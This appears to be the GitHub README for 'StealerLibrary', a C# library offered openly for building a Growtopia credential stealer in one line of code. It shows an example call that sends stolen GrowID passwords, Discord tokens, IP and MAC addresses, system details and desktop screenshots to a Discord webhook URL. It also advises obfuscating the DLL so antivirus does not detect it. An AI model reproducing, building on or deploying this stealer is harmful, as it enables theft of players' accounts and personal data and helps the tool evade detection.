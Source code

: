 # StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't, use any obfuscator to make it FUD. (Used [Agile.Net](https://secureteam.net/acode-features-detailed) Scan Results 0/26) (Without Obfuscator 4/26)

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/837357864609199746/4wIlD35Q9QNdLGEfd9hWezQX9eAMxCBqDQcMmIBBvAtoKTjDlJAzkMaxyc1kcxaY4TpP", "Webhook Picture Url (Optional)", "Stealer Library", true, false, true, true, false, true, false, true, true);
        }
    }
}
```
1. Webhook Url
2. Webhook Picture Url (Optional)
3. Webhook Name (Optional)
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)
7. Discord Token (True/False)
8. User Name (True/False)
9. Machine Name (True/False)
10. OS Information (True/False)
11. Country (True/False)
12. Desktop Screenshot (True/False)

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. Before doing anything with the source code, please read [this.](https://www.gnu.org/licenses/gpl-3.0.html)
